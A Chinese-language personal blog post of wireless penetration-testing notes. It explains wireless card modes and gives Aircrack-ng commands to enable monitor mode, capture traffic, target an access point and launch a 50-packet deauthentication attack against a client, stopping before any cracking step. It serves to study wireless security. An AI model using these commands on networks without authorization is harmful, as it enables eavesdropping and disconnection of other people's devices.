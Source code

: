 ```yaml
---
title: "无线渗透笔记"
date: 2019-07-14 23:51:41
categories: 信息安全
tags:
  - Wireless
  - Kali Linux
---
```


{% noteblock quote cyan %}

使用 Aircrack-ng 套件进行无线攻击测试。

{% endnoteblock %}

<!-- more -->

## 无线监听

### 技术原理

#### 无线网卡的 4 种工作模式

- Managed：用于设备与 AP 直接连接， **无线网卡的驱动程序依赖无线 AP 管理整个通信过程。**

- Ad hoc：当你的网络由**互相直连的设备组成**时，就使用这个模式。在这个模式中，无线通信双方共同承担 WAP 的职责。

- Master：主模式，允许无线网卡使用特制的驱动程序和软件工作，作为其他设备的 WAP。

- Monitor：监听模式，停止收发数据，监听无线数据包。

### 执行步骤

#### 切换为监听模式

- 使用 Airmon-ng

  ```shell
  iwconfig
  airmon-ng start wlx70f11c280f23	# airmon-ng start wlan0
  ```

- 关闭 Network Manager

  ```shell
  service network-manager stop
  ```

- 开启 Network Manager

  ```shell
  service network-manager restart
  ```

#### 开启监听

- 使用 Airodump-ng

  ```shell
  airodump-ng wlan0mon
  ```

#### 捕获数据

- Wireshark：选择监听网卡捕获数据

- Airodump-ng

  ```shell
  airodump-ng -c 1 wlan0mon -w data	# -c信道 -w输出目录名
  ```

## WiFi Crack

### 开启监听

```shell
airmon-ng start wlan0
```

### 扫描信号

```shell
airodump-ng wlan0mon
```

### 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w指定生成的文件名 -c指定信道 --bssid指定路由器的MAC地址
```

### 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0指定发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址
```
